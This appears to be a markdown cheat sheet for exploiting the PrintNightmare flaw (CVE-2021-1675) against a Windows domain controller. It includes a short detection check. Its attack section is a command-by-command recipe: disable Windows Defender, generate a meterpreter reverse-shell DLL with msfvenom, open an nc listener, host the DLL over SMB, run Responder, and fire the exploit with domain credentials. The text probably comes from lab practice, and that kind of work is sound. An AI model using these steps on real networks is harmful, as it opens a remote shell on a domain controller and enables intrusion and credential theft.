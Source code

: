 - - -
Exploit Link : [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
- - -

## Detection ?
run this impacket to cheak :

```python
rpcdump.py @<DC-IP> | egrep 'MS-RPRN|MS-PAR'
```

If the output looks like this : Then it's vulnerable. 
![Imgur](https://i.imgur.com/K7T5a4S.png)

- - -
## Attacking Steps :
Be sure that windows defender is turned off **or** we can perform some AD-Bypass.

```python
pip3 uninstall impacket ; git clone https://github.com/cube0x0/impacket ; cd impacket ; python3 ./setup.py install
```

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<our-ip> LPORT=9090 -f dll > shell.dll 
```

```sh
nc -nvlp 9090 
```

Now host that **shell.dll** file. 

```python
smbserver.py share `pwd` -smb2support 
```

```sh
responder -I tun0 -v 
```

```sh
git clone https://github.com/cube0x0/CVE-2021-1675.git ; cd CVE-2021-1675/ ; chmod 755 * 
```

```python
./CVE-2021-1675.py marvel.local/domain_user:Password1@<DC-IP> '\\<our-ip>\share\shell.dll' 
```

- - -

